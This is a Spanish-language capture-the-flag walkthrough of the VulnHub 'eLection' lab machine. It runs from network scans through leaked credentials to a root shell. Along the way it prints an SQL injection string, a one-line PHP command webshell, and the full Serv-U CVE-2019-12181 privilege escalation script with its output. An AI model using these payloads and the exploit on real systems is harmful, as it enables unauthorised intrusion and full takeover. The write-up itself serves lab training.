






# eLection - VulnHub

## Reconocimiento

Vamos a ver cual es la IP de la máquina objetivo.

```bash
sudo nmap -sn 10.10.10.0/24

Nmap scan report for 10.10.10.130
Host is up (0.00016s latency).
MAC Address: 00:0C:29:D1:84:60 (VMware)

sudo arp-scan -I ens33 --localnet --ignoredups
10.10.10.130	00:0c:29:d1:84:60	VMware, Inc.
```

Vamos a realizar un escaneo de puertos para ver que servicios están corriendo en la máquina objetivo.

```bash
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n 10.10.10.130 -oG allPorts

PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 64
80/tcp open  http    syn-ack ttl 64
MAC Address: 00:0C:29:D1:84:60 (VMware)
```

Veamos versiones y scripts de los servicios que están corriendo en la máquina objetivo.

```bash
nmap -sCV -p22,80 10.10.10.130

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 20:d1:ed:84:cc:68:a5:a7:86:f0:da:b8:92:3f:d9:67 (RSA)
|   256 78:89:b3:a2:75:12:76:92:2a:f9:8d:27:c1:08:a7:b9 (ECDSA)
|_  256 b8:f4:d6:61:cf:16:90:c5:07:18:99:b0:7c:70:fd:c0 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Visitamos http://10.10.10.130/ y vemos la página por defecto de Apache.

Hagamos un escaneo de directorios para ver si hay algún directorio interesante.

```bash
gobuster dir -u http://10.10.10.130 -w /usr/share/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt -t 20 --exclude-length 10701 -x txt,php,html

/index.html           (Status: 200) [Size: 10918]
/javascript           (Status: 301) [Size: 317] [--> http://10.10.10.130/javascript/]
/robots.txt           (Status: 200) [Size: 30]
/election             (Status: 301) [Size: 315] [--> http://10.10.10.130/election/]
/phpmyadmin           (Status: 301) [Size: 317] [--> http://10.10.10.130/phpmyadmin/]
/phpinfo.php          (Status: 200) [Size: 95407]
```

Dejaremos la fuerza bruta de phpmyadmin para más adelante.

Al meternos en http://10.10.10.130/robots.txt vemos lo siguiente:

```
admin
wordpress
user
election
```

Creo que podrían ser posibles usuarios para un ataque de fuerza bruta.

En http://10.10.10.130/election/ vemos lo siguiente:


Viendo el código fuente de la página no vemos gran cosa.

Nos metemos a http://10.10.10.130/phpinfo.php

**allow_url_fopen** está habilitado, lo que nos permitirá hacer LFI.
**allow_url_include** también está habilitado, lo que nos permitirá hacer RFI.
**file_uploads** está habilitado, lo que nos permitirá subir archivos.

Vamos a enumerar más en /election

```bash
gobuster dir -u http://10.10.10.130/election -w /usr/share/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt -t 20 --exclude-length 10701 -x txt,php,html

/index.php            (Status: 200) [Size: 7003]
/media                (Status: 301) [Size: 321] [--> http://10.10.10.130/election/media/]
/themes               (Status: 301) [Size: 322] [--> http://10.10.10.130/election/themes/]
/data                 (Status: 301) [Size: 320] [--> http://10.10.10.130/election/data/]
/admin                (Status: 301) [Size: 321] [--> http://10.10.10.130/election/admin/]
/lib                  (Status: 301) [Size: 319] [--> http://10.10.10.130/election/lib/]
/languages            (Status: 301) [Size: 325] [--> http://10.10.10.130/election/languages/]
/js                   (Status: 301) [Size: 318] [--> http://10.10.10.130/election/js/]
/card.php             (Status: 200) [Size: 1935]
```

En /election/card.php vemos lo siguiente:

```
00110000 00110001 00110001 00110001 00110000 00110001 00110000 00110001 00100000 00110000 00110001 00110001 00110001 00110000 00110000 00110001 00110001 00100000 00110000 00110001 00110001 00110000 00110000 00110001 00110000 00110001 00100000 00110000 00110001 00110001 00110001 00110000 00110000 00110001 00110000 00100000 00110000 00110000 00110001 00110001 00110001 00110000 00110001 00110000 00100000 00110000 00110000 00110001 00110001 00110000 00110000 00110000 00110001 00100000 00110000 00110000 00110001 00110001 00110000 00110000 00110001 00110000 00100000 00110000 00110000 00110001 00110001 00110000 00110000 00110001 00110001 00100000 00110000 00110000 00110001 00110001 00110000 00110001 00110000 00110000 00100000 00110000 00110000 00110000 00110000 00110001 00110000 00110001 00110000 00100000 00110000 00110001 00110001 00110001 00110000 00110000 00110000 00110000 00100000 00110000 00110001 00110001 00110000 00110000 00110000 00110000 00110001 00100000 00110000 00110001 00110001 00110001 00110000 00110000 00110001 00110001 00100000 00110000 00110001 00110001 00110001 00110000 00110000 00110001 00110001 00100000 00110000 00110000 00110001 00110001 00110001 00110000 00110001 00110000 00100000 00110000 00110001 00110000 00110001 00110001 00110000 00110001 00110000 00100000 00110000 00110001 00110001 00110001 00110001 00110000 00110000 00110000 00100000 00110000 00110001 00110001 00110000 00110000 00110000 00110001 00110001 00100000 00110000 00110000 00110001 00110001 00110000 00110000 00110000 00110001 00100000 00110000 00110000 00110001 00110001 00110000 00110000 00110001 00110000 00100000 00110000 00110000 00110001 00110001 00110000 00110000 00110001 00110001 00100000 00110000 00110000 00110001 00110000 00110000 00110000 00110000 00110001 00100000 00110000 00110001 00110000 00110000 00110000 00110000 00110000 00110000 00100000 00110000 00110000 00110001 00110000 00110000 00110000 00110001 00110001 
```

Esto es binario, lo he intentado convertir en un par de paginas en texto plano y en un convertidor de binario a texto, la primera vez nos da esto:

```
01110101 01110011 01100101 01110010 00111010 00110001 00110010 00110011 00110100 00001010 01110000 01100001 01110011 01110011 00111010 01011010 01111000 01100011 00110001 00110010 00110011 00100001 01000000 00100011
```

Al volver a pasarlo por el convertidor de binario a texto nos da esto:

```
user:1234 pass:Zxc123!@#
```

En /election/admin/ vemos lo siguiente:



A la hora de poner cualquier cosa, vemos que nos pone que nos quedan pocos intentos hasta bloquearnos.

Probamos una inyección SQL

```
' OR 1=1-- -
```

Probamos con las credenciales que hemos encontrado en /election/card.php



Logramos meternos a un panel de administración.




Vemos que somos admin y hace uso de MariaDB.

Vamos a añadir un candidato con un XSS para ver si se ejecuta.

```html
<script>alert('XSS')</script>
```




Vemos que me cambia los `< >, ( ) y " "` por lo que sanitiza el código.

Vemos que podemos subir una foto para el candidato, vamos a intentar subir un webshell.

```php
<?php
  system($_GET['cmd']);
?>
```

No funciona de ninguna de las maneras, usamos nikto para ver si hay alguna vulnerabilidad en la web y vemos que nos enumera un directorio muy interesante.

```bash
+ [750500] /election/admin/logs/: Directory indexing found.
+ [001738] /election/admin/logs/: This might be interesting.
```

Vemos que en http://10.10.10.130/election/admin/logs/system.log está lo siguiente: 

```
[2020-01-01 00:00:00] Assigned Password for the user love: P@$$w0rd@123
[2020-04-03 00:13:53] Love added candidate 'Love'.
[2020-04-08 19:26:34] Love has been logged in from Unknown IP on Firefox (Linux).
[2026-09-04 08:57:26] Love has been logged in from Unknown IP on Firefox (Linux).
[2026-09-04 09:01:32] Love added candidate 'Scriptalert\'xss\'script'.
[2026-09-04 09:10:09] Love added candidate '\' Or -- -'.
[2026-09-04 09:10:17] Love deleted candidate (ID = 78
[2026-09-04 09:10:20] Love deleted candidate (ID = 77
[2026-09-04 09:14:22] Love added candidate 'Aaaaaaaa'.
[2026-09-04 09:19:09] [ERROR.CDTPHOTO] Unsupported source file format!
[2026-09-04 09:20:17] [ERROR.CDTPHOTO] Unsupported source file format!
[2026-09-04 09:21:26] [ERROR.CDTPHOTO] Unsupported source file format!
[2026-09-04 09:21:45] [ERROR.CDTPHOTO] Unsupported source file format!
[2026-09-04 09:25:37] Love has been logged in from Unknown IP on Firefox (Linux).
```

## Escalada de privilegios

Vamos a tratar de loguearnos con el usuario love y la contraseña P@$$w0rd@123 que hemos encontrado en el log mediante ssh.

```bash
ssh love@10.10.10.30

love@election:~$ id
uid=1000(love) gid=1000(love) groups=1000(love),4(adm),24(cdrom),30(dip),33(www-data),46(plugdev),116(lpadmin),126(sambashare)

love@election:/$ sudo -l
Sorry, user love may not run sudo on election.

love@election:~$ find / -perm -4000 2>/dev/null

/usr/bin/arping
/usr/bin/passwd
/usr/bin/pkexec
/usr/bin/traceroute6.iputils
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/sudo
/usr/sbin/pppd
/usr/local/Serv-U/Serv-U
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/xorg/Xorg.wrap
/bin/fusermount
/bin/ping
/bin/umount
/bin/mount
/bin/su
/home/love

ls -l /usr/local/Serv-U/Serv-U
-rwsr-xr-x 1 root root 6319088 Nov 29  2017 /usr/local/Serv-U/Serv-U
```

Vemos que tenemos un binario con SUID, vamos a ver que es Serv-U.

Serv-U es un servidor FTP y SFTP para Windows y Linux por lo que no creo que nos sirva para escalar privilegios.

```bash
ss -tunl

127.0.0.1:3306
```

Vemos que tenemos un servicio corriendo en el puerto 3306, que es el puerto por defecto de MySQL/MariaDB.

```bash
mysql -u love -p -h 127.0.0.1
```

La contraseña del usuario love es P@$$w0rd@123 no nos sirve para loguearnos en la base de datos.

```bash
find / -name user.txt 2>/dev/null
/usr/share/doc/phpmyadmin/html/_sources/user.txt
/home/love/Desktop/user.txt
```

Encontramos la flag de usuario en /home/love/Desktop/user.txt

Vamos a buscar en todo el sistema la palabra "root" para ver si encontramos alguna contraseña.

```bash
grep -r "password" /var/www 2>/dev/null
```

Vemos lo siguiente:

```
/var/www/html/election/admin/inc/conn.php:	$db_pass = "password";
```

Por lo que hacemos un cat y vemos esto:

```php
<?php
	error_reporting(0);
	session_start();
	$db_host = "localhost";
	$db_user = "newuser";
	$db_pass = "password";
	$db_name = "election";
	$connection = mysqli_connect($db_host,$db_user,$db_pass,$db_name);
	if(!$connection){
		echo "FATAL ERROR!";
		exit();
	}
?>
```

Ahora sí que accedemos a la base de datos con el usuario newuser y la contraseña password.

```bash
mysql -u newuser -p -h 127.0.0.1
```

```bash
MariaDB [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| election           |
| information_schema |
| mysql              |
| performance_schema |
+--------------------+

# En election no hay nada interesante, vamos a mirar en mysql.
MariaDB [(none)]> use mysql;
MariaDB [mysql]> select * from user;


| localhost | root    | *9CFBBC772F3F6C106020035386DA5BBBF1249A11
```

Vemos que el usuario root tiene una contraseña encriptada, vamos a tratar de desencriptarla.

Usamos https://crackstation.net/ y nos da la contraseña `toor`

```bash
su root
```

Su contraseña no es toor, por lo que esto ha sido inútil.

Despues de investigar sobre Serv-U, vemos que es una versión inferior a la 15.1.7 y es vulnerable a una escalada de privilegios (CVE-2019-12181).

```bash
love@election:/usr/local/Serv-U$ cat Serv-U-StartupLog.txt
[01] Fri 04Sep26 08:20:18 - Serv-U File Server (64-bit) - Version 15.1 (15.1.6.25) - (C) 2017 SolarWinds Worldwide, LLC.  All rights reserved.
```

```bash
searchsploit serv-u

Serv-U FTP Server < 15.1.7 - Local Privilege Escalation (2) | multiple/local/47173.sh
```

```bash
#!/bin/bash

if ! test -u "/usr/local/Serv-U/Serv-U"; then
  echo '[-] /usr/local/Serv-U/Serv-U is not setuid root'
  exit 1
fi

echo "[*] Launching Serv-U ..."

/bin/bash -c 'exec -a "\";cp /bin/bash /tmp/sh; chown root /tmp/sh; chmod u+sx /tmp/sh;\"" /usr/local/Serv-U/Serv-U -prepareinstallation'

if ! test -u "/tmp/sh"; then
  echo '[-] Failed'
  /bin/rm "/tmp/sh"
  exit 1
fi

echo '[+] Success:'
/bin/ls -la /tmp/sh

echo "[*] Launching root shell: /tmp/sh"
/tmp/sh -p
```

Ya que tenemos nano, creamos un fichero llamado exploit.sh y pegamos el código del exploit.

```bash
love@election:~$ ./exploit.sh 
[*] Launching Serv-U ...
sh: 1: : Permission denied
[+] Success:
-rwsr-xr-x 1 root root 1113504 Sep  4 10:17 /tmp/sh
[*] Launching root shell: /tmp/sh
sh-4.4# whoami
root
sh-4.4# cd /root
sh-4.4# ls
root.txt
```

Conseguimos la flag de root en /root/root.txt y completamos la máquina.